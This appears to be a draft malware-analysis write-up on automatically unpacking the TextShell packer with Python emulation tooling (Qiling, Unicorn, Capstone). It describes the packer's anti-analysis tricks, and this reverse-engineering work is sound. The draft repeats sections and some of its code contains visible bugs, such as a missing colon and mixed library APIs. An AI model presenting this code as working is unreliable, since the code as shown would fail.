The execution flow of the unpacker mirrors the three-stage architecture of the packer itself:

1. *Stage 1 (TextShell PE)*: The packer binary is a PE that does API hammering, dynamically
   resolves ~VirtualAlloc~ or ~ZwAllocateVirtualMemory~, and writes the next stage into
   freshly allocated memory chunk by chunk. We emulate this with Qiling, hooking the
   allocation functions to track where the payload lands.

2. *Stage 2 (custom shellcode)*: The memory dump from stage 1 is a custom shellcode that
   decompresses the actual payload. We emulate it with Unicorn and read out the decompressed
   output from memory. The article of ReversingLab completly and in much more professional
   analyse it key components.

3. *Stage 3 (final payload)*: Whatever the packer was carrying  Oyster, Vidar, or
   something else  now sitting on disk as a clean binary.

Before any emulation happens though, there is a pre-processing step: the API hammering calls
in the packer's ~.text~ section get patched to NOPs. Without that, Qiling trips over the
hundreds of GDI calls that have no corresponding implementation in the emulated environment.
The sections below walk through each component in order.

#+CAPTION: Extract of API Hammering used by TextShell


As a matter of interest, for this packer I wanted to give a try to the Qiling framework.

For the rest of the exercise, the following external dependencies are used:
- [[https://lief.re/][Lief]]
- [[https://www.capstone-engine.org/][Capstone]]
- [[https://qiling.io/][Qiling]]
- [[https://www.unicorn-engine.org/][Unicorn]]

** First Layer Unpacking
Before diving into the unpacker logic, a quick summary of what we are dealing with  just
enough context to make the code decisions below make sense.

TextShell is a PE packer. Its job is to carry a compressed next-stage payload and reconstruct
it in memory at runtime. The key structural traits that the unpacker has to handle are:

- *API hammering*: The ~.text~ section is saturated with calls to GDI functions
  (~CreateSolidBrush~, ~SetMapMode~, ~UnrealizeObject~, etc.) that serve no functional
  purpose. They exist to bloat the function call graph, confuse heuristics, and slow down
  analysts. Across a single sample you can easily find hundreds of these scattered between the
  actual payload-write instructions.

- *Anti-debug trap*: ~IsDebuggerPresent~ is called repeatedly throughout the code. If it
  returns non-zero, the packer enters an infinite loop. The emulator needs to intercept this
  and return zero.

- *Dynamic memory allocation*: Earlier variants call ~VirtualAlloc~ directly to allocate the
  region where the stage 2 payload is reconstructed. More recent variants switched to
  ~ZwAllocateVirtualMemory~, adding a layer of indirection through =NTDLL=. Either way the
  unpacker needs to intercept the call and record the allocated address.

- *Chunked payload reconstruction*: The stage 2 payload is not stored as a blob. It is broken
  into one-to-eight byte immediate values dispersed across hundreds of small functions, each of
  which writes its chunk to a specific offset in the allocated region. This is what makes the
  binary so large and why the chunk count in the YARA rule from ReversingLabs has a threshold
  of 1000.

- *Shellcode invocation*: At the end of the entry function, after all chunks have been
  written, a ~jmp reg~ or ~call reg~ instruction hands execution to the stage 2 shellcode. The
  register value at that point is the entrypoint offset into the allocated buffer.

The stage 2 shellcode is a custom decompression routine. It inflates the stage 3 PE payload
into the beginning of its own memory region, then exits. Stage 3 is the actual malware.

An analayse of different samples indicates that the first stage had a dynamic API resolution with a custom hashing
algorithm, this algorithm varies accross samples. 

*** Import Cleaner
The screenshot below is cleaned version of the code showned in Figure X.

#+CAPTION: API hammering removed


Cleaning the code gives two informations:
1. Better understand the packer logic
2. Ease its emulation as we won't need to emulate tons of API calls \o/

#+BEGIN_SRC python
import lief
from capstone import Cs, CS_ARCH_X86, CS_MODE_64
from capstone.x86_const import (
    X86_INS_JMP,
    X86_INS_CALL,
    X86_OP_REG,
    X86_OP_MEM,
    X86_INS_RET,
)

class TextShellPECleaner:

    def __init__(self, pe_path: str):
        self.pe_path = pe_path
        self.pe = lief.parse(self.pe_path)
        self.instructions: list = []
        self.code: bytes = b""

    def get_imported_function_addresses(self) -> tuple[int, int]:
        """Parse the DIRECTORY_ENTRY_IMPORT to list
        imported DLL to retrieve function's address"""

        _min, _max = math.inf, 0

        for dll in self.pe.imports:
            print(f"[*] Packer import {dll.name}")
            for func in dll.entries:
                _min = min(_min, func.address)
                _max = max(_max, func.address)

        return _min + pe.imagebase, _max + pe.imagebase

    def get_dll_func_address(self, function_name: str) -> int | None:
        """search the address of a function that is imported from a DLL"""

        for func in self.pe.imported_functions:
            if func.name == function_name:
                return func.address

    def get_section(self, section_name: str) -> lief.PE.Section | None:
        """returns the raw content of the given section (by name)
        the data are returned as bytes"""

        for section in self.pe.sections:
            if section.name == section_name
                return section

    def get_instructions(self):
        """Return the instruction of the PE based on the .text section content"""

        md = Cs(CS_ARCH_X86, CS_MODE_64)
        md.detail = True

        image_base_address = self.pe.imagebase
        text_section = self.get_section(".text")
        self.code = text_section.content.tobytes()

        for insn in md.disasm(
            self.code, image_base_address + text_section.virtual_address
        ):
            self.instructions.append(insn)

    def patch_sample(self, calls: list[int]):
        """Patch the .text section by replacing calls to dlls by NOP
        instructions"""

        base_image_addr = self.pe.imagebase
        text = self.get_section(".text")

        _code = bytearray(self.code)

        # as it only patch call qword ptr [rip + offset]
        # the instructions to patch are always 6 bytes long
        patched_instructions = b"\x90" * 6

        for call in calls:
            offset = call - base_image_addr - text.virtual_address
            _code[offset : offset + 6] = patched_instructions

        self.code = bytes(_code)

    def rebuild_pe(self) -> bytes:
        """rebuild the PE and replace the old .text section
        by the one with call instruction patched"""

        print("[+] rebuild the PE")
        new_pe: bytes = b""

        print(f"[+] Add old PE header {len(self.pe.header)}")
        new_pe = self.pe.header

        print("[+] add the new patched .text section")
        new_pe += self.code

        for section in self.pe.sections:
            if not section.name == ".text":
                print(f"[*] Duplicate the section {section.name}")
                new_pe += section.content.tobytes()

        try:
            _pe = lief.parse(new_pe)
        except Exception as err:
            print(f"[-] failed to build new PE {err}")
        else:
            print("The rebuild PE seems valid")

        return new_pe

    def search_call(
        self, border: tuple[int, int], is_debugger_present_addr: int | None = 0
    ) -> list[int]:
        """Search every call whose destination is located in the address range provided
        by the border paramater, the function explicitly exclude IsDebuggerPresent from
        the call to be patched"""

        calls = []

        for insn in self.instructions:
            if insn.id == X86_INS_CALL:
                operands = insn.operands
                called = operands[0]

                if called.type == X86_OP_MEM:
                    # call qword ptr [rip + offset]
                    rip = insn.address
                    offset = called.mem.disp
                    potential_dll_call = rip + offset + 6
                    if potential_dll_call == is_debugger_present_addr:
                        continue
                    if (
                        potential_dll_call >= border[0]
                        and potential_dll_call <= border[1]
                    ):
                        calls.append(insn.address)
                    else:
                        print(f"[!] {insn} for 0x{potential_dll_call:x}")

        return calls

    def clean(self) -> bytes:
        """Main function of the TextShellPECleaner:
        1. get the range addresses for the imported dlls
        2. get the address of IsDebuggerPresent (KERNEL32.dll) used for the emulator (hook)
        3. list instructions of the PE
        4. Search every call to something located in the address range of the dlls
        5. Patch the PE by replacing the call by NOP instruction
        6. Rebuild the PE (copy header and replace .text section content by the cleaned version
        """

        dll_import_range = self.get_imported_function_addresses()
        is_debugger_present_addr = self.get_dll_func_address(b"IsDebuggerPresent")
        if not is_debugger_present_addr:
            is_debugger_present_addr = 0
        print(f"[+] IsDebuggerPresent address is 0x{is_debugger_present_addr:x}")
        self.get_instructions()

        calls_addresses = self.search_call(dll_import_range, is_debugger_present_addr)
        self.patch_sample(calls_addresses)
        new_pe = self.rebuild_pe()

        return new_pe

if __name__ == "__main__":
    import sys
    cleaner = TextShellPECleaner(sys.argv[1])
    cleaned_pe = cleaner.clean()
#+END_SRC

NB: the cleaner does not remove call to =IsDebuggerPresent= mainly to avoid managing it
return value management. Some sample check that a debugger is not present. Keeping
this call and its verification won't be a matter in this stage emulation as Qiling is able
to hook this function call from =KERNEL32.dll= to return 0 (no debugger present) easly.

*** Emulate cleaned stage 1
Once the stage 1 has been cleaned, its objective is clear. It does a dynamic api resolution and
a wide number of memory move from a fixed addres with various (not contigous) offset.
So, we want to emulate this stage to reconstruct the buffer that is constructed by
the numerous memory mov.

Before digging in the Qiling usage to emulate the PE removed from the API hammering,
we need to known what to look for. As far as we understand this first stage, the
current stage will attempt somehow to execute the shellcode (stage 2). This could be
via a =JMP= instruction or a =CALL=. With the cleaned version of the packer, and based
on multiple sample analysis, TextShell use a =CALL= to give the control flow execution to
what is call the stage 2.

Great, two last things to identify:
1. Which address is called
2. The size of the next stage

The dynamic API resolution give valuable information as the only fonction that could manipulate
memory in terms of allocation is =NtAllocateVirtualMemory=. If we are able to catch this ntdll
call we will be able to answer our two requirements (address and size).

Using Qiling, this can be done by instrumentating hook. See the code below to see how the
hook on =NtAllocateVirtualMemory= is made to access the address of the allocated memory
and the requested size for the buffer.

#+BEGIN_SRC python
# BOOL IsDebuggerPresent();
@winsdkapi(cc=STDCALL, params={})
def hook_IsDebuggerPresent(ql: Qiling, address: int, params):
    return __is_debugger_present(ql)

@winsdkapi(
    cc=STDCALL,
    params={
        "ProcessHandle": HANDLE,
        "BaseAddress": POINTER,  # RDX: The pointer to where the address should be stored
        "ZeroBits": ULONG_PTR,
        "RegionSize": POINTER,  # R9: The pointer to the size
        "AllocationType": ULONG,
        "Protect": ULONG,
    },
)
def hook_ZwAllocateVirtualMemory(ql, address, params):

    base_addr_ptr = params["BaseAddress"]
    region_size_ptr = params["RegionSize"]

    try:
        request_size = ql.mem.read_ptr(region_size_ptr)
    except:
        request_size = 0x1000  # Fallback

    # Align size to 0x1000 (4KB page size)
    if request_size % 0x1000 != 0:
        request_size = (request_size + 0x1000) & ~0xFFF

    # Read the value at the pointer. If it is 0, we can pick anywhere.
    try:
        preferred_addr = ql.mem.read_ptr(base_addr_ptr)
    except:
        preferred_addr = 0

    if preferred_addr != 0:
        final_addr = preferred_addr
        ql.mem.map(final_addr, request_size)
        msg = "Fixed Address"
    else:
        final_addr = ql.mem.map_anywhere(request_size)
        msg = "Qiling Chosen"

    # write the allocated address into the pointer (RDX)
    ql.mem.write_ptr(base_addr_ptr, final_addr)

    # We also write back the aligned size (R9)
    ql.mem.write_ptr(region_size_ptr, request_size)

    print(f"\n[+] HOOK: ZwAllocateVirtualMemory ({msg})")
    print(f"    |-- Result written to ptr : {hex(base_addr_ptr)}")
    print(f"    |-- ALLOCATED MEMORY AT   : {hex(final_addr)}  <-- YOUR ADDRESS")
    print(f"    |-- Size                  : {hex(request_size)}")
    unpacker = ql.unpacker_context
    unpacker.shellcode_location = final_addr
    unpacker.shellcode_size = request_size

    return 0

#+END_SRC

Note that in the hook above, a special one one =IsDebuggerPresent= is added to ensure
0 is return to the emulated packer. This way the code won't exits and will execute as we expect!

To emulate PE file that require (and that TextShell case) DLL to work as expected, the framework
required an setup task, which is to provide a directory named =rootfs= that contains the
DLLs required by the PE and therefore the emulator. This is useful mainly for import resolution.

Qiling provide a script to execute on a Windows machine that will extract excalty what is need <3.

#+BEGIN_SRC python
class TextShellPEEmulator:

    def __init__(
        self,
        rootfs: str = "samples/rootfs/x8664_windows",
        target_pe: str = "packer.bin",
    ):
        self.shellcode_location = 0
        self.shellcode_size = 0
        self.ql: Qiling | None = None
        self.rootfs = rootfs
        self.target_pe = os.path.join(self.rootfs, target_pe)

    def setup(self):
        if not os.path.exists(self.rootfs):
            print(
                f"Error: Rootfs not found at '{self.rootfs}'.\nPlease run: git clone https://github.com/qilingframework/rootfs.git"
            )
            return

        if not os.path.exists(self.target_pe):
            print(f"Error: Target PE '{self.target_pe}' not found.")
            return

        cfg = {"os": {"aslr": False}}
        # Initialize Qiling
        self.ql = Qiling(
            [self.target_pe], self.rootfs, verbose=QL_VERBOSE.DEFAULT, profile=cfg
        )

        self.ql.unpacker_context = self
        # Hook the API to prove the malware resolved it
        # ql.os.set_api("ZwAllocateVirtualMemory", hook_nt_allocate)
        # 2. Hook 'NtAllocateVirtualMemory' (Zw usually redirects to Nt in emulators)
        # We use QL_INTERCEPT.EXIT to run AFTER the standard logic
        self.ql.os.set_api("ZwAllocateVirtualMemory", hook_ZwAllocateVirtualMemory)
        self.ql.os.set_api("NtAllocateVirtualMemory", hook_ZwAllocateVirtualMemory)
        self.ql.os.set_api("IsDebuggerPresent", hook_IsDebuggerPresent)

        self.ql.loader.PEB.BeingDebugged = 0

    def run(self) -> bytes:
        """ "Run the emulator and extract the dedicated memory area that contains the next stage"""
        print("[*] Starting Qiling Emulation...")
        try:
            self.ql.run()
        except Exception as err:
            print(f"[!] error during Qiling emulation, {err}")

        buff = self.ql.mem.read(self.shellcode_location, self.shellcode_size)

        print(
            f"Succesfully dump the shellcode (aka: next stage) with a size of {len(buff)}"
        )

        return bytes(buff)

    def find_next_stage_ep_offset(self) -> int | None:
        """Search for the last call or jmp in the main function
        that refered to the shellcode invokation"""

        instructions = []
        md = Cs(CS_ARCH_X86, CS_MODE_64)
        md.detail = True

        pe = lief.parse(self.target_pe)
        image_base_address = pe.imagebase

        for section in pe.sections:
            if section.Name.startswith(b".text"):
                text_section = section

        instructions = []
        code = text_section.get_data()
        ep = pe.entrypoint

        print(f"len of the code is {len(code)}; EP 0x{ep:x}")
        for insn in md.disasm(code, image_base_address + text_section.virtual_address):
            if insn.address > ep:
                instructions.append(insn)
                if insn.id == X86_INS_RET:
                    print(
                        "found RET instruction of the main function -> stop decompiling"
                    )
                    break

        # the shellcode (aka next stage) invokation is done at the end of
        # the entry function
        # the logic here is to read backwark the instruction from the entry function ret instruction
        # until it found the call or jmp instruction (the shellcode invoke)
        _offset = 0
        for idx, insn in enumerate(instructions[::-1]):
            if insn.id in (X86_INS_JMP, X86_INS_CALL):
                print(f"[*] Shellcode invokation is here 0x{insn.address:x}")
                _offset = idx
                break

        offset_invoke = len(instructions) - _offset - 1
        cs_shellcode_jumper = instructions[offset_invoke - 20 : offset_invoke + 1]

        # rebuild the shellcode from the 20 previous instructions
        # before the jmp/call as a raw byte variable
        shellcode = b""
        for insn in cs_shellcode_jumper:
            print(insn)
            shellcode += insn.bytes

        print(
            "[+] setup the TinyShellcode emulator to retrieve the address of the entrypoint of the next stage"
        )
        tiny_shellcode_emu = TinyShellcodeEmulator(shellcode)
        tiny_shellcode_emu.run_emulation()

        if tiny_shellcode_emu.reg_target:
            print(
                f"[*] Next stage entry point offset is at 0x{tiny_shellcode_emu.reg_target:x}"
            )
            return tiny_shellcode_emu.reg_target

#+END_SRC

*** Shellcode EP
Things would be much more simplier if only the shellcode is executed at address 0. So to emulate the second
stage we need to find what the real entrypoint of the stage 2.

Regarding IDA or any decompiler it looks simple because the address is a kind of hardcoded. However, regarding
the chunk of instructions prerior to the shellcode call. We observed that the address is the result
of some basic memory operations (ADD, SUB, MOV, INC).

To answer this question a tiny emulator is used, its strategy is the following one:
1. Extract only the prior few instruction before the shellcode =CALL=.
2. Compute the various arithmetic operation resulting in the shellcode address offset computation.

#+BEGIN_SRC python
class TinyShellcodeEmulator:
    def __init__(self, shellcode: bytes):
        self.shellcode = shellcode
        self.BASE_ADDRESS = 0x10000
        self.ADDRESS_OF_INVOKE = (
            self.BASE_ADDRESS + len(self.shellcode) - 2
        )  # The offset of the 'call reg' or `jmp reg` (last instruction)
        self.reg_target: int = (
            0  # the value of the register used for the shellcode invoke (jmp or call)
        )

    def get_capstone_reg(self, code_bytes) -> str | None:
        """Use Capstone to find out WHICH register is being called."""

        md = Cs(CS_ARCH_X86, CS_MODE_64)
        md.detail = True

        # Disassemble the instruction
        for insn in md.disasm(code_bytes, 0):
            if insn.id in [X86_INS_CALL, X86_INS_JMP] and len(insn.operands) > 0:
                if insn.operands[0].type == X86_OP_REG:
                    return insn.reg_name(insn.operands[0].reg)
        return None

    def hook_code(self, uc, address, size, user_data):
        """# 3. The Hook Function
        # This runs before every instruction. We check if we hit our target.
        """

        # Register mapping (Capstone string -> Unicorn ID)
        REG_MAP = {
            "rax": UC_X86_REG_RAX,
            "rbx": UC_X86_REG_RBX,
            "rcx": UC_X86_REG_RCX,
            "rdx": UC_X86_REG_RDX,
            "rsi": UC_X86_REG_RSI,
            "rdi": UC_X86_REG_RDI,
            "r8": UC_X86_REG_R8,
            "r9": UC_X86_REG_R9,
            "r10": UC_X86_REG_R10,
            "r11": UC_X86_REG_R11,
            "r12": UC_X86_REG_R12,
            "r13": UC_X86_REG_R13,
            "r14": UC_X86_REG_R14,
            "r15": UC_X86_REG_R15,
        }
        print(f"0x{address:x} 0x{self.ADDRESS_OF_INVOKE:x}")

        if address >= self.ADDRESS_OF_INVOKE:
            print(f"[+] Hit target instruction at {hex(address)}")

            # A. Use Capstone to identify the register dynamically
            # Read the memory at the current address to get the instruction bytes
            code_bytes = uc.mem_read(address, size)
            reg_name = self.get_capstone_reg(code_bytes)

            if reg_name:
                print(f"[+] Capstone identified register: {reg_name}")

                # B. Read the value from Unicorn
                uc_reg_id = REG_MAP.get(reg_name)
                if uc_reg_id:
                    target_val = uc.reg_read(uc_reg_id)
                    print(
                        f"[SUCCESS] The jump target (value of {reg_name}) is: {hex(target_val)}"
                    )
                    self.reg_target = target_val
                else:
                    print(f"[-] Register {reg_name} not in map.")

            # Stop emulation (we got what we wanted)
            uc.emu_stop()

    def run_emulation(self):

        print("[-] Initializing Unicorn...")
        uc = Uc(UC_ARCH_X86, UC_MODE_64)

        # 1. Map memory for the code (as you did before)
        # Mapping 2MB at 0x1000000
        uc.mem_map(self.BASE_ADDRESS, 2 * 1024 * 1024)

        # 2. Map memory for the STACK <--- FIX START
        # We map a separate 1MB region specifically for the stack
        STACK_ADDR = 0x2000000
        STACK_SIZE = 1024 * 1024
        uc.mem_map(STACK_ADDR, STACK_SIZE)

        # 3. Set the Stack Pointer (RSP) <--- FIX CONTINUED
        # Stacks "grow down" (from high addresses to low addresses).
        # So we set RSP to the very END of the allocated stack memory.
        # We subtract a small buffer (0x100) just to be safe.
        uc.reg_write(UC_X86_REG_RSP, STACK_ADDR + STACK_SIZE - 0x100)

        print(f"[-] Stack initialized at {hex(STACK_ADDR + STACK_SIZE - 0x100)}")

        # Write the shellcode to memory
        uc.mem_write(self.BASE_ADDRESS, self.shellcode)

        # Add the hook
        uc.hook_add(UC_HOOK_CODE, self.hook_code)

        # Start emulation
        try:
            uc.emu_start(self.BASE_ADDRESS, self.BASE_ADDRESS + len(self.shellcode))
        except UcError as e:
            print(f"[-] Emulation error: {e}")
            # Debugging tip: print where RIP was when it crashed
            rip = uc.reg_read(UC_X86_REG_RIP)
            print(f"[-] Crashed at RIP: {hex(rip)}")
        else:
            print("[*] Successfully end emulation")

#+END_SRC

** Stage 2

However what can we takes about this shellcode structure:
1. It decompress a payload in memory using custom LZMA
2. Make some adjustment in it by fixing =JMP= and =CALL= instruction (_e.g.:_ reallocation fixup)
3. Prepare a memory section to host the payload to drop and execute it

#+caption: Shellcode overview (LZMA)


The next sections won't focus on how the packer works but on how to unpack it (automaticaly)! This is
the main topic of this writeup.

* TODO BACK TextShell Automatic Unpacking : Give your =F7= key a vacation 🐚 :@RE:packer:python:
SCHEDULED: <2026-02-18 Wen>
:PROPERTIES:
:EXPORT_FILE_NAME: textshell2
:END:

#+begin_description
TextShell is packer used to deliver various cybercrime malware including OysterLoader,
SUPER backdoor. The malware is developped in C and is composed of two stages. The
first one attempts to mimickate legitimate software using graphical API call
and the second one is a shellcode that aimed at decompressing the payload to drop
and thereby executing it.
This article is a saved notes to share rathan than a complite packer drill down.
Some note about the process to unpack it automatically are shared as the final
script to do it!
#+end_description

** Introduction

If you have been tracking malvertising campaigns over the past year or so, you have probably
run into what is now commonly referred to as the /TextShell/ packer  or ~pkr_mtsi~ in
ReversingLabs nomenclature. The packer was first spotted in the wild around April 2025 and
has been in continuous use since. It shows up in fake software installer campaigns
impersonating tools like PuTTY, WinSCP, or Rufus: the usual SEO-poisoning and malvertising
playbook. On the payload side, depending on the campaign, it has been observed dropping Oyster
(a.k.a. OysterLoader / Broomstick), Vidar infostealer, and a handful of other commodity
malware families.

The packer itself was covered in depth by [[https://www.reversinglabs.com/blog/unpacking-pkr_mtsi][ReversingLabs]] in January 2026, and the Oyster loader
it delivers was documented by [[https://blog.sekoia.io/oysterloader-unmasked-the-multi-stage-evasion-loader/][Sekoia.io]] in February 2026. The [[https://www.huntress.com/blog/gootloader-threat-detection-woff2-obfuscation][Huntress report on Gootloader]]
also has a relevant section on the OysterLoader distribution chain. This post is not a
re-analysis of those findings. If you want the full static analysis of the packer internals 
API hammering, PEB traversal, hash-based API resolution, the broken ~NtProtectVirtualMemory~
calls  those articles cover it well. Read them first.

What this post is about is the /automation side/: given a TextShell packed binary, how do you
extract the final payload programmatically without touching a debugger? The answer is a Python
script that chains together [[https://github.com/unicorn-engine/unicorn][Unicorn]], [[https://github.com/qilingframework/qiling][Qiling]], and [[https://github.com/capstone-engine/capstone][Capstone]] to drive the unpacking end-to-end.

The execution flow of the unpacker mirrors the three-stage architecture of the packer itself:

1. *Stage 1 (TextShell PE)*: The packer binary is a PE that does API hammering, dynamically
   resolves ~VirtualAlloc~ or ~ZwAllocateVirtualMemory~, and writes the next stage into
   freshly allocated memory chunk by chunk. We emulate this with Qiling, hooking the
   allocation functions to track where the payload lands.

2. *Stage 2 (custom shellcode)*: The memory dump from stage 1 is a custom shellcode that
   decompresses the actual payload. We emulate it with Unicorn and read out the decompressed
   output from memory.

3. *Stage 3 (final payload)*: Whatever the packer was carrying  Oyster, Vidar, or
   something else  now sitting on disk as a clean binary.

Before any emulation happens though, there is a pre-processing step: the API hammering calls
in the packer's ~.text~ section get patched to NOPs. Without that, Qiling trips over the
hundreds of GDI calls that have no corresponding implementation in the emulated environment.
The sections below walk through each component in order.

** TextShell at a Glance

Before diving into the unpacker logic, a quick summary of what we are dealing with  just
enough context to make the code decisions below make sense.

TextShell is a PE packer. Its job is to carry a compressed next-stage payload and reconstruct
it in memory at runtime. The key structural traits that the unpacker has to handle are:

- *API hammering*: The ~.text~ section is saturated with calls to GDI functions
  (~CreateSolidBrush~, ~SetMapMode~, ~UnrealizeObject~, etc.) that serve no functional
  purpose. They exist to bloat the function call graph, confuse heuristics, and slow down
  analysts. Across a single sample you can easily find hundreds of these scattered between the
  actual payload-write instructions.

- *Anti-debug trap*: ~IsDebuggerPresent~ is called repeatedly throughout the code. If it
  returns non-zero, the packer enters an infinite loop. The emulator needs to intercept this
  and return zero.

- *Dynamic memory allocation*: Earlier variants call ~VirtualAlloc~ directly to allocate the
  region where the stage 2 payload is reconstructed. More recent variants switched to
  ~ZwAllocateVirtualMemory~, adding a layer of indirection through NTDLL. Either way the
  unpacker needs to intercept the call and record the allocated address.

- *Chunked payload reconstruction*: The stage 2 payload is not stored as a blob. It is broken
  into one-to-eight byte immediate values dispersed across hundreds of small functions, each of
  which writes its chunk to a specific offset in the allocated region. This is what makes the
  binary so large and why the chunk count in the YARA rule from ReversingLabs has a threshold
  of 1000.

- *Shellcode invocation*: At the end of the entry function, after all chunks have been
  written, a ~jmp reg~ or ~call reg~ instruction hands execution to the stage 2 shellcode. The
  register value at that point is the entrypoint offset into the allocated buffer.

The stage 2 shellcode is a custom decompression routine. It inflates the stage 3 PE payload
into the beginning of its own memory region, then exits. Stage 3 is the actual malware.

** Pre-processing: Killing the API Hammering

*** The Problem

Qiling is a full-system emulator. When you run a PE under it, it intercepts Windows API calls
and services them through its own implementation layer. That works well for the APIs you care
about  ~VirtualAlloc~, ~IsDebuggerPresent~, and so on  but TextShell imports dozens of GDI
functions that Qiling either does not implement or implements incompletely. With hundreds of
calls to those functions spread across the entry function, the emulation either crashes or
produces incorrect behaviour before it reaches the allocation code you actually need to hook.

The fix is straightforward: before handing the binary to Qiling, patch every call to an
irrelevant imported DLL function with NOP instructions. The ~TextShellPECleaner~ class does
exactly this.

*** Finding the Import Address Range

The cleaner's first step is to establish the address range that corresponds to imported
functions. ~pefile~ parses the import directory and iterates over every imported symbol to
find the minimum and maximum function addresses:

#+begin_src python
def get_imported_function_addresses(self) -> tuple[int, int]:
    _min, _max = 0, 0
    for dll in self.pe.DIRECTORY_ENTRY_IMPORT:
        for func in dll.imports:
            if func.address < _min:
                _min = func.address
            elif func.address > _max:
                _max = func.address
    return _min, _max
#+end_src

This gives a numeric range ~[_min, _max]~ that covers all imported function thunks. Any
~call~ instruction whose resolved destination falls within that range is a candidate for
patching.

*** Identifying Calls to Patch

Capstone disassembles the entire ~.text~ section. For each ~CALL~ instruction, the cleaner
checks whether the operand is a memory-indirect call through RIP  the typical pattern for
imported function calls in 64-bit PE files:

#+begin_src python
# call qword ptr [rip + offset]
if called.type == X86_OP_MEM:
    rip = insn.address
    offset = called.mem.disp
    potential_dll_call = rip + offset + 6
    if potential_dll_call in whitelisted_addresses:
        continue
    if potential_dll_call >= border[0] and potential_dll_call <= border[1]:
        calls.append(insn.address)
#+end_src

The ~+6~ accounts for the length of the ~call qword ptr [rip+disp32]~ instruction itself,
which is how RIP-relative addressing works: RIP points to the *next* instruction at the time
the displacement is evaluated.

Two addresses are explicitly whitelisted before the search runs:

- ~IsDebuggerPresent~  the hook needs this call to remain in place so the Qiling API hook
  fires and returns zero.
- ~VirtualAlloc~  same reason, the allocation hook depends on this call being present.

~ZwAllocateVirtualMemory~ does not appear in the import table for the variants that use it
(it is resolved dynamically via PEB traversal), so it does not need special handling here.

** Patching and Rebuilding

Each identified call address gets six NOP bytes written over it. The instruction is always
six bytes because ~call qword ptr [rip+disp32]~ encodes as ~FF 15 xx xx xx xx~:

#+begin_src python
def patch_sample(self, calls: list[int]):
    base_image_addr = self.pe.OPTIONAL_HEADER.ImageBase
    text = self.get_section(b".text")
    _code = bytearray(self.code)
    patched_instructions = b"\x90" * 6

    for call in calls:
        offset = call - base_image_addr - text.VirtualAddress
        _code[offset : offset + 6] = patched_instructions

    self.code = bytes(_code)
#+end_src

The offset calculation converts the virtual address of the instruction back to a raw offset
into the section data: ~VA - ImageBase - SectionVA~.

After patching, the PE is rebuilt by concatenating the original header, the patched ~.text~
section, and all other sections verbatim:

#+begin_src python
def rebuild_pe(self) -> bytes:
    new_pe = self.pe.header
    new_pe += self.code  # patched .text
    for section in self.pe.sections:
        if not section.Name.startswith(b".text"):
            new_pe += section.get_data()
    return new_pe
#+end_src

This is a minimal rebuild  it does not update the section headers or recalculate checksums.
It is good enough for Qiling to load and execute, which is all we need.

#+caption: [IDA: decompiled entry function showing the flood of GDI calls interleaved with payload-write instructions  the "before" state that motivates the cleaner]
#+attr_html: :alt IDA decompiled view of TextShell entry function with API hammering

** Stage 1 Emulation: Extracting the Shellcode

With a cleaned PE on disk, we can now emulate it under Qiling and intercept the memory
allocation to find out where the stage 2 shellcode lands. Two classes are involved here:
~TextShellPEEmulator~ drives the Qiling emulation, and ~TinyShellcodeEmulator~ handles a
follow-up Unicorn emulation to resolve the shellcode entrypoint offset.

*** Qiling Setup

~TextShellPEEmulator~ initialises Qiling with ASLR disabled  a necessary setting because we
need predictable addresses when reading back the allocated buffer:

#+begin_src python
cfg = {"os": {"aslr": False}}
self.ql = Qiling(
    [self.target_pe], self.rootfs, verbose=QL_VERBOSE.DEFAULT, profile=cfg
)
#+end_src

Qiling requires the target PE to live inside the rootfs directory it is given. The
~_prepare_workspace~ method in ~TextShellUnpacker~ handles this by copying the (cleaned) PE
into the rootfs before setup runs:

#+begin_src python
dest = os.path.join(self.rootfs, "packer.bin")
shutil.copy2(self.pe_path, dest)
#+end_src

This is a Qiling constraint, not a design choice  Qiling builds its Windows path mappings
relative to the rootfs root, so the binary must be reachable from there.

*** Hooking the Allocation Functions

The goal of the emulation is to find out where the packer writes its stage 2 payload. The
packer allocates that region via ~VirtualAlloc~ (older variants) or ~ZwAllocateVirtualMemory~
(newer variants). We hook both.

The hook for ~VirtualAlloc~ intercepts the call, allocates memory inside Qiling's address
space, and stores the resulting address in the unpacker context object:

#+begin_src python
@winsdkapi(
    cc=STDCALL,
    params={
        "lpAddress": POINTER,
        "dwSize": SIZE_T,
        "flAllocationType": DWORD,
        "flProtect": DWORD,
    },
)
def hook_VirtualAlloc(ql, address, params):
    preferred_addr = params["lpAddress"]
    request_size = params["dwSize"]

    if request_size % 0x1000 != 0:
        request_size = (request_size + 0x1000) & ~0xFFF

    if preferred_addr != 0:
        final_addr = preferred_addr
        ql.mem.map(final_addr, request_size)
    else:
        final_addr = ql.mem.map_anywhere(request_size)

    unpacker = ql.unpacker_context
    unpacker.shellcode_location = final_addr
    unpacker.shellcode_size = request_size

    return final_addr
#+end_src

The ~hook_ZwAllocateVirtualMemory~ hook follows the same logic but has to deal with
